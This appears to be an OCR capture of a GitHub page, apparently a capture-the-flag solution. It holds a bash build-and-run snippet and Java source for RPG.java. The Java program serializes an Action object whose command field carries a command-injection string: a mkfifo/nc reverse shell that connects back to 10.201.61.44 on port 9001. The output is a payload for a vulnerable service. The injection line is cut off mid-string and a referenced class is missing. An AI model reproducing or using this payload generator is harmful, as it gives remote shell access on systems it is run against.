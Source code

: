 #!/bin/bash
javac -cp ".:commons-io-2.7.jar" RPG.java
java -cp ".:commons-io-2.7.jar" RPG




<p>

- https://www.jdoodle.com/online-java-compiler</p>



<img width="810" height="507" alt="image" src="https://github.com/user-attachments/assets/f6bac5bd-b10d-4ab8-9dad-e8ceec4201a2" />





import java.util.*;
import java.io.*;
import java.io.IOException;
import java.io.InputStream;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.URL;
import java.net.URLConnection;
import java.util.Scanner;
import java.util.logging.Level;
import java.util.logging.Logger;

public class RPG {

    private static final int port = 3333;
    private static Socket connectionSocket;

    private static InputStream is;
    private static OutputStream os;

    private static Scanner scanner;
    private static PrintWriter serverPrintOut;
    public static void main(String[] args) {
        try{
            String str = Serialize.toString( new Action("123","trying\\\";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.61.44 9001 >/tmp/f;ech>
            System.out.println("123 : " + str );
        }catch(Exception e){
            System.out.println("123");
        }
    }
}

class Action implements Serializable {

    public final String name;
    public final String command;
    public String output = "";

    public Action(String name, String command) {
        this.name = name;
        this.command = command;
    }

